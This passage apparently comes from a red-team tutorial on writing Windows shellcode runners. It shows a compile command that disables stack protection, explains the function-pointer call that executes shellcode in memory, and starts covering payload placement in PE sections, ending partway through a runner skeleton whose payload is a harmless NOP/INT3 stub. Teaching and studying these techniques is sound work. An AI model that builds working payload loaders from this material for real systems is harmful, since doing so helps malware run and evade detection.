 by running the python script and placing the shellcode into the "shellcode" array we can use MSVC compiler to compile the code:



{% code title="compile.bat" %}
```c
// @ECHO OFF
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcshell-runner.cpp /link /OUT:shell-runner.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
```
{% endcode %}

{% hint style="info" %}
you can use VisualStudio and create a new C++ project and simply click "build" if you dont want to use the build tools directly.
{% endhint %}

`((void (*)())exec_mem)();` casts the memory address stored in `exec_mem` as a function pointer to a function with a return type of `void` and no parameters, and then immediately calls that function.

In the context of a shellcode runner, this is used to execute the shellcode stored in the allocated memory. The memory containing the shellcode is treated as if it were a function, and by calling it as a function, the shellcode's instructions are executed.



***

## <mark style="color:red;">Shellcode Placement</mark>

PE (Portable Executable) file format has many sections and some of them can be used for storing our shellcode.&#x20;

{% embed url="https://medium.com/ax1al/a-brief-introduction-to-pe-format-6052914cc8dd" %}

### <mark style="color:orange;">.TEXT Section</mark>

&#x20;in the context of the C shellcode runner provided earlier, where the shellcode is defined inside the `main` function, the shellcode is indeed stored in the `.text` section of the PE executable. The `.text` section is typically used to store executable code. to put your payload in .text section, simply define the shellcode array inside one of the functions defined in the program.

```c
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>


// .text section is the body of any function declearation
int main(void) {
    
	void * exec_mem;
	BOOL rv;
	HANDLE th;
    DWORD oldprotect = 0;

	// 4 byte payload
	// placed in PE .text section
	unsigned char payload[] = {
	0x90,		// NOP
	0x90,		// NOP
	0xcc,		// INT3
	0xc3		// RET
	};


	unsigned int payload_len = 4;
```